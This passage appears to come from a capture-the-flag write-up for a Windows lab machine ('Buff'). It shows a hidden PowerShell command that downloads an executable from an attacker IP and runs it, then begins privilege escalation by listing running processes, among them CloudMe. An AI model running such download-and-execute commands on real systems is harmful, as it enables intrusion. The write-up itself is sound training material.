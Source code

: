 ![user](/images/buff/user.png)

powershell -w hidden -noni -nop -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45/46250.exe','C:\Users\public\46250.exe')" && C:\Users\public\46250.exe

### Privilege Escalation 

While doing simple emuration after getting shell, checking the running services and processes, 

```
tasklist /SVC:
                                       
svchost.exe                   8744 N/A
svchost.exe                   7664 N/A
svchost.exe                   3748 N/A
RuntimeBroker.exe             1440 N/A
cmd.exe                       8724 N/A
conhost.exe                    524 N/A
CloudMe.exe                   7812 N/A
timeout.exe                   5320 N/A
cmd.exe                       1184 N/A
conhost.exe                   5504 N/A
tasklist.exe                  5800 N/A  
```
